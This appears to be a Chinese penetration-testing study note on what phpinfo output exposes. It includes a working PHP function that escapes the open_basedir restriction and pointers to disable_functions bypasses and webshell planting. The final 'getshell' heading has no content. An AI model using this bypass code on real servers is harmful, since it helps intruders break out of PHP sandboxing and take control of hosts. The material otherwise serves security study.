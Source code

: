 ```yaml
---
title: phpinfo中的信息
date: 2023/5/1 15:00:25
categories:
- 渗透测试
tags:
- PHPinfo
---
```


# 配置文件

[PHP: php.ini 核心指令说明 - Manual](https://www.php.net/manual/zh/ini.core.php)



ini_set()

https://www.php.net/manual/zh/ini.list.php



# phpinfo

## 总结

[phpinfo中的重要信息](https://www.k0rz3n.com/2019/02/12/PHPINFO%20%E4%B8%AD%E7%9A%84%E9%87%8D%E8%A6%81%E4%BF%A1%E6%81%AF/)

|       变量        |           作用           |
| :---------------: | :----------------------: |
|   open_basedir    | 限制目录访问（可以绕过） |
| disable_function  |   禁用函数（可以绕过）   |
| session.save_path |       配合文件包含       |
|      _SERVER      |       各种主机信息       |
|       pecl        |      confing.php写🐎      |



## open_basedir绕过

```php
在index.php下
ini_set('open_basedir', '/var/www/html/');
所以如果用户通过index.php来访问服务器时，只能访问/var/www/html/
```

[open_basedir绕过](https://www.v0n.top/2020/07/10/open_basedir%E7%BB%95%E8%BF%87/)

```php
function bypass_open_basedir(){
        if(!file_exists('bypass_open_basedir')){
                mkdir('bypass_open_basedir');
        }
        chdir('bypass_open_basedir');
        @ini_set('open_basedir','..');
        @$_Ei34Ww_sQDfq_FILENAME = dirname($_SERVER['SCRIPT_FILENAME']);
        @$_Ei34Ww_sQDfq_path = str_replace("\\",'/',$_Ei34Ww_sQDfq_FILENAME);
        @$_Ei34Ww_sQDfq_num = substr_count($_Ei34Ww_sQDfq_path,'/') + 1;
        $_Ei34Ww_sQDfq_i = 0;
        while($_Ei34Ww_sQDfq_i < $_Ei34Ww_sQDfq_num){
                @chdir('..');
                $_Ei34Ww_sQDfq_i++;
        }
        @ini_set('open_basedir','/');
        @rmdir($_Ei34Ww_sQDfq_FILENAME.'/'.'bypass_open_basedir');
}
```



## disable_function绕过

如何设置`disable_function`

> 在php配置文件php.ini中设置

绕过：https://github.com/AntSwordProject/AntSword-Labs/tree/master/bypass_disable_functions

​			https://www.freebuf.com/articles/network/263540.html

常见的webshell管理工具都自带相关绕过的模块。



## 配合文件包含Getshell
